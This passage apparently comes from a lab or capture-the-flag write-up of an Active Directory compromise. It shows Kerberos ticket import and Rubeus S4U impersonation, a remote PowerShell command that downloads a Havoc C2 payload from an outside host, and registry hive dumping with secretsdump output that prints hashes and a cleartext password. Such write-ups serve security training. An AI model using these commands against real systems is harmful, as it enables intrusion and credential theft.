      jz6LWnkFXS5rihsw58LnG1KmG8oITUJoQDDE9KGCHxcrz88tKZ/9d0MqJsNaYGVCPcUbS+87+vvxSzZo
      F2t47KmwL6+2zowW+PByyv7BcobQ7smF5qY/Jm2ye0QvVrpWgKlrtsKdCK9+GbV6jBG8bI4tViYRBAaq
      pKWAs+E/laaEHX0dRQRUaG+adYLMNcVQW38gZ5TgfiP6HQyB1+7P5WZqWdS4ZmS7SZ+UGZZzOL6pz8RE
      bAHAt0+lKeCDnjeUkuJRhawgEgWx9NSUcqtLfRgYxqK/lOGqMHZGNzNAJaPcHUBi32RuY96yqRKomiBi
      AtNvPB2ojOMq/qXyZ4Pu6HT7ogFQnrds6legT4CdKa/lh5jmyfENwWDf5v67m1y4ZuRFyprYsiWAB7Bh
      ZQ+v7IYSeX+yBuQQVKRax9BXSEN+j4j5yCG7jdKZswNiBd3Gv85T9VzK76yLAyBT+oMWLsSA+WmUmPC9
      N/HojaTMPBd/tWICIEJ9e7VmnI4I0A6C0GnpvW/c5/VoYG08lAbTzuI5aNr2dcjmAq2w0WYU0reiS3Kd
      uuaI4oMxyW1gzvopEy8mABp/+yW2Rz26geaDsKwZtqF+xZvC9ClbT9yb0BqzsIkqhQJfrs2zLrw7uMHU
      y8rxVWil65SVXi9f1f/uf07cP3SfmGRYdyjvWdHqrtxz22WHT/AhjVUEHmv8CEyw/167JUQE3wZNpt8X
      fhYPXzUPUb9LxbyFZdg5MYZkRHXmQuJfqvoCOIOxL6V5gTZSldZe9HpiGm/8KzuUvcnI01emiKwg6/ZD
      8VeqTsBJaGufuHui2rLUu85jvNdUFUBQsBA+EuNk2H09f48Ve1LiMyu5X2RK9rYvDLExw6UkoCbALIKM
      MAiuk3Ra8c2/aVCxTwPoHbxSF+0NLryBFFpIoCzB7B3pB3iwDw3fpaBDSQ3vlQSfo0kYl0qSC9cwBqIo
      UaLb7TwA1mKkCfbu2RNnslJ125eTIHOkCyXhlf2SthDJVGad8tMlOIYdq+6xeLsDQUfqzYBxfYVQ+691
      tmc1vh055JlORssV+eCczLpbfZmkxjzLcRv43mMCPZbU7Fs/cQsNsgZtyI9mZ3f6RjNaXCh/rp1FnBWy
      32zVz8JoK4Q9ZLWjgfAwge2gAwIBAKKB5QSB4n2B3zCB3KCB2TCB1jCB06AbMBmgAwIBEaESBBBYJmA5
      d7+Vz2pq0p8Vuc0EoRIbEENPUkUuQ1lCRVIuTE9DQUyiGjAYoAMCAQqhETAPGw1BZG1pbmlzdHJhdG9y
      owcDBQBgoQAApREYDzIwMjQwNjE4MTgzNDI0WqYRGA8yMDI0MDYxOTAwMzA0OVqnERgPMjAyNDA2MjUx
      NDMwNDlaqBIbEENPUkUuQ1lCRVIuTE9DQUypLjAsoAMCAQKhJTAjGwRjaWZzGxtDT1JFV0tUMDAyLkNP
      UkUuQ1lCRVIuTE9DQUw=
[+] Ticket successfully imported!
```

And we can see it via klist:

```
8/06/2024 20:35:36 [yovecio] Demon » shell "klist"
[*] [7FB9AD08] Tasked demon to execute a shell command
[+] Send Task to Agent [114 bytes]
[+] Received Output [511 bytes]:

Current LogonId is 0:0x3e7

Cached Tickets: (1)

#0>	Client: Administrator @ CORE.CYBER.LOCAL
    Server: cifs/COREWKT002.CORE.CYBER.LOCAL @ CORE.CYBER.LOCAL
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize 
    Start Time: 6/18/2024 14:34:24 (local)
    End Time:   6/18/2024 20:30:49 (local)
    Renew Time: 6/25/2024 10:30:49 (local)
    Session Key Type: AES-128-CTS-HMAC-SHA1-96
    Cache Flags: 0 
    Kdc Called:
```

This isn't working so I will use again the HTTP to do the same stuff:

```
powershell "C:\temp\Rubeus.exe s4u /user:COREWKT001$ /ticket:doIFyDCCBcSgAwIBBaEDAgEWooIEvjCCBLphggS2MIIEsqADAgEFoRIbEENPUkUuQ1lCRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPUkUuQ1lCRVIuTE9DQUyjggRuMIIEaqADAgESoQMCAQWiggRcBIIEWNbOPkD0e8bVqlirQA8SQYMTeYVU8zioBPxq1GngE6aH40Q8RW7ds+kX5P8y8QFncz3Q68ZJul9Yi1+5DEm75VREDL9ricuUEVbbUbD7ZObA52mRuZxYpavGnukelXpYLkx36B+mxpJSZQ6EVoL+BuKAR4Y21ZeePzMIsGxfbcvrjI853NIIsyEP3SdIr/GApnE1hZIaCWP35lGQP7owvvlJtqrZ99sOMdCVNanaHJuTOiqHuJzyh1usGkxPKMIdOyAf2NG4+PTv7nDhHa2JFAivwzmvGhV+DYgErlJYJB9gaSjM6IAHEO06Ws+VPx5vL0QCZajq4DkKWgFnS5pP1Y1TGY5Qbef5oaMS52BINSRjpt+JxDSVhJi1sJVMgpM6twkyPA5KMSDLlG/zAHp1IhjoipNgi/tnMBFeREZPNcmORerhufOKwesSb6Nh7wAjX2LUbRoe/tuNvMuL8ciHlbjfgtFopPJw+oCjZcVSSxDJZmQ8WB/DRtSQddRMlGH9FGwpUwCKCbCv12ZsvG55CF0NH0hhJKO0ANTTb2fOn2EC65KM7dppuYZ6wFT0NIg0m9ERsiI/5nSmh0raQktIKNtDPScZrZO/pg6PpYqEiIm8dmwv+zUbBR9KTnnp0Aos0fHKmzEy6ufDLb54cj5M6wCBZtW9YAnWSGEFGOwvMLuXMHQUOANszyL4dB+i1pmkLCBte4mSwTkDfDOYizvpbUb25c4zbNgDjVLqBA9BELNa32AtA9MHkBGpxcqFMQixwgcBQwSSRZkKxekHWPym+mYDe0emKqtjfq9r7uL30uHJzWEngPz8ugMow3sRNyawufC55ERvdnMpAj8N5V6twVPq1cAktkcpyg7+ZJ5JBMc7I7Aelw1GZHRIvAjQ7XEKH35spvu1m8dfAbq4ao/U/u5b/dZWeS44KFfCikxvIDNK96A/pkB2pEFc4vekCA3TNe7hMdTzMec3XQ9K0q/TfUg7xEu2snsGb5sKGxZOSUxjS4jcyfn0HZ3qkwcfu4hB8zjAKBXbllysfuude/LSIvMlFfnAE0bT0KdFRw3k1Rq4cIzBdu/+ZyWnO7AnrHfRMbobSmb5as2ko1hu6ewRmMIsV2ZRD4D2rjHdJs7iy3vHT8/Yc6iPo962sWxDiYBYyCiIj59lYNkK711yxtSGa2bh9RJknnP0jHuyVM/AaqmUEiqBNLIc1wD+w7VSMW0zEqDquv4eY05HbOfTCiSn94EpG476H9CQuZa1aJsfR5vxBrqdPwF0nemNsDqUYFouJEFGNSDxIKgdyLJyXeHhnufLpSqd7NjnNoDQ9p3YVyWxpWwQxLI8zf2SR67ZHIRr43Bbsr3tKCc6Dw/j4XHLuwfPvGHyefEueC2FzaMzvlVDAis31TbIsJR7vREt2MO1gJsUh256rpsNX/ugBPB7kVYqltQOzBHnXmUHoou/nwKqWIAyb0S05lW4g4n+SVM8lisFztWRuRd5o4H1MIHyoAMCAQCigeoEged9geQwgeGggd4wgdswgdigKzApoAMCARKhIgQgyiowTe8zS9bYIOc0BrZ7Z2AJ4K1ySdLvYyqVuY3Fo++hEhsQQ09SRS5DWUJFUi5MT0NBTKIYMBagAwIBAaEPMA0bC2NvcmV3a3QwMDEkowcDBQBgoQAApREYDzIwMjQwNjE4MTQzMDUxWqYRGA8yMDI0MDYxOTAwMzA0OVqnERgPMjAyNDA2MjUxNDMwNDlaqBIbEENPUkUuQ1lCRVIuTE9DQUypJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPUkUuQ1lCRVIuTE9DQUw= /impersonateuser:Administrator /msdsspn:cifs/COREWKT002.CORE.CYBER.LOCAL /altservice:http /ptt"
```



And now I hope beeing able to execute Remote shells? Seems like yes!  
<br/>

```
$Session = New-PSSession -ComputerName COREWKT002.CORE.CYBER.LOCAL
invoke-command $Session -ScriptBlock {whoami; hostname; pwd}
```



Now I will generate a new payload and upload a new Havoc shell!

```
PS C:\Temp> invoke-command $session -ScriptBlock {wget http://10.9.20.13:8080/wrkst002.exe -outfile C:\Temp\wrkst002.exe}
invoke-command $session -ScriptBlock {wget http://10.9.20.13:8080/wrkst002.exe -outfile C:\Temp\wrkst002.exe}
PS C:\Temp> invoke-command $session -ScriptBlock {ls C:\temp}
invoke-command $session -ScriptBlock {ls C:\temp}


    Directory: C:\temp


Mode                 LastWriteTime         Length Name                               PSComputerName
----                 -------------         ------ ----                               --------------
-a----         6/19/2024   8:05 AM         102400 wrkst002.exe                       COREWKT002.CORE.CYBER.LOCAL


PS C:\Temp>
```

And now callback baby!



Now I will use the SAMDUMP in Havoc to get the hashes:

```
19/06/2024 14:08:14 [yovecio] Demon » samdump C:\Windows\Temp\
[*] [3840E756] Tasked demon to dump the SAM registry
[+] Send Task to Agent [31 bytes]
[+] Received Output [57 bytes]:
[*] Exported HKLM\SYSTEM at C:\Windows\Temp\systemic.txt

[+] Received Output [54 bytes]:
[*] Exported HKLM\SAM at C:\Windows\Temp\samantha.txt

[+] Received Output [59 bytes]:
[*] Exported HKLM\SECURITY at C:\Windows\Temp\security.txt

[*] BOF execution completed
```

And we can parse it to get a cleartext password and sanchez NTLM hash:

```
┌──(root㉿kali-bello)-[/home/…/7f8f9474/Download/C:/Temp]
└─# impacket-secretsdump -system systemic.txt -security security.txt  local -sam samantha.txt       
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Target system bootKey: 0x5dd8c2773925b89651e9f48ebdf8d46c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:73542573c61d4509ae89745b5ccd4388:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:954fd25162ffdda445dca6edec93b934:::
[*] Dumping cached domain logon information (domain/username:hash)
CORE.CYBER.LOCAL/Steven.Sanchez:$DCC2$10240#Steven.Sanchez#25f4b45a2fb7112ce6cd5d12dccabbc4: (2024-06-19 03:23:39)
CORE.CYBER.LOCAL/Administrator:$DCC2$10240#Administrator#108cb25293e11c072acebcd810e23002: (2024-03-14 06:48:10)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:300044006c00520059006100340032002a00370041006f0029005f0023003d0046006900420061006a0023004e004d00440030004d0035003b0054005500530042002c00680023005b003a005d006e006b002c002b0061002f0075003d006500540056006500780022004b006d006e002200570054007a00300064002a002c006c0022007200390077006500740049006b00610025006c0065006a00280036006a005300570062004a004a0075002a0056006c0068004a0057005b0062004300580020002e0054005e002f0061003b00570078004200390044003b005e003900480062005100670075005e0077006e00
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:99f7ed190a27e3963249b3e0e14c3194
[*] DefaultPassword 
(Unknown User):zui4uaS8oeng
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc708b2c22b9d99fe1df21be61273a45c24697a7b
dpapi_userkey:0xb03c0b3c78228e7177a9f790f4cf2685e3ca5377
[*] NL$KM 
 0000   80 91 DF 97 05 38 6D 30  B4 20 36 D9 6A 8C 86 CC   .....8m0. 6.j...
 0010   3F FE E9 74 35 A5 25 41  F9 81 96 F6 50 2F 05 81   ?..t5.%A....P/..
 0020   E5 E7 E2 9D C6 EF 5E 85  73 CC C8 87 CB 1D CE A0   ......^.s.......
 0030   6A D1 02 AC 23 5C FC 55  00 7D A7 6D 4E 95 09 1B   j...#\.U.}.mN...
NL$KM:8091df9705386d30b42036d96a8c86cc3ffee97435a52541f98196f6502f0581e5e7e29dc6ef5e8573ccc887cb1dcea06ad102ac235cfc55007da76d4e95091b
[*] Cleaning up...
```

And we have some creds:



But we can grab another flag from Administrator's document folder...

&nbsp;

# AD Analysis

Seems like that Sanchez is part of Server Admins?



Server admins are part of RDS server group?  


Except this I don't see more so I guess with these credentials we can move on to the COREBTW server!

&nbsp;

&nbsp;

&nbsp;